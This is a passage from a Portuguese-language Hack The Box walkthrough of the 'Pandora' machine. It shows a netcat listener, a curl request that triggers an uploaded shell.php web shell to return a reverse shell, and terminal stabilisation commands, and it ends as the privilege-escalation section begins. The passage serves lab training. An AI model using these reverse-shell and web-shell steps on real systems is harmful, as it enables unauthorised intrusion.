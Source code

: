 ```bash
# Executar o nc em modo de escuta para receber o shell:
kali@kali: >     nc -lvnp 443

# Em outra consola, executar o ficheiro que "uploadamos" (Eu escolhi chamar o ficheiro de shell.php...)
kali@kali: >     curl http://localhost/pandora_console/images/shell.php
```

### Estabilizar o Reverse Shell

```bash
script /dev/null -c bash
export TERM=xterm
export SHELL=bash

# Ctrl + Z
stty raw -echo; fg
reset
stty rows 40 columns 170  # Tem corresponder ao vosso ecrã (stty -a numa consola do Kali)
```

# Escalada de privilégio

Agora que somos matt, podemos analisar o tal binário pandora_backup

![tar](Assets/HTB-Linux-Easy-Pandora/tar.png)
